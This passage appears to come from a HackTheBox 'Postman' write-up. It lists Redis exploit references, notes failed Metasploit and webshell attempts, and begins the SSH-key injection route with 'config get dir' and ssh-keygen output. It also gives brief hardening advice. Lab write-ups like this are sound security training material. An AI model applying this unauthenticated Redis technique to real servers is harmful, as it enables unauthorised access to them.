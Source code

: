 	| ------------------------------------------------------------- | -------------------------------------------------------------------------------- |

	| Redis - Replication Code Execution (Metasploit)               | linux/remote/48272.rb                                                            |

	| Redis 4.x / 5.x - Unauthenticated Code Execution (Metasploit) | linux/remote/47195.rb                                                            |

	| Redis Remote Command Execution (SSH)                                | https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html |

	| Redis Remote Code Execution                                   | https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce                                                                                 |

2. Tried the 2 metasploit exploits, both failed
3. Instead I refered to [`hacktricks - Pentesting Redis`](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce), there is an entire section on how to do RCE.
	1. Redis RCE via `PHP` Webshell - Failed, insufficient permissions to write to `/var/www/html/`
	2. Redis RCE via SSH - Works!
4. Why is `redis` vulnerable to this?
	- 99.99% of the Redis use cases are inside a sandboxed environment. Security is complex. Adding security features adds complexity. Complexity for 0.01% of use cases is not great, but it is a matter of design philosophy, so you may disagree of course. - [Source](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)
	- Redis should only be accessed by authorized clients and there should be fire walling, authentication should be enabled and, binding it to `127.0.0.1`.
5. Try `Redis RCE via SSH`
	1. Find out the home directory of the `redis` user

		```
		10.10.10.160:6379> config get dir
		1) "dir"
		2) "/var/lib/redis"
		10.10.10.160:6379> 
		```

		- `/var/lib/redis`
	2. Create SSH key-pair

		```
		┌──(root💀kali)-[~/htb/postman/10.10.10.160/exploit]
		└─# ssh-keygen -t rsa -C "crack@redis.io"
		Generating public/private rsa key pair.
		Enter file in which to save the key (/root/.ssh/id_rsa): ./id_rsa
		Enter passphrase (empty for no passphrase): 
		Enter same passphrase again: 
		Your identification has been saved in ./id_rsa
		Your public key has been saved in ./id_rsa.pub
		The key fingerprint is:
		SHA256:lNzv29nGWGzcI4CzBj/TXSuaTJ4oZBFrJ6//P+3nrBs crack@redis.io
		The key's randomart image is:
		+---[RSA 3072]----+
		|                 |
		|       o o       |
		|        * o      |
		|       B + o   . |
		|      . S + + .oo|
		|       o B + + o*|
		|      o o B = E=.|
		|       o . * +.*+|
		|        o...o.B*=|
		+----[SHA256]-----+
		```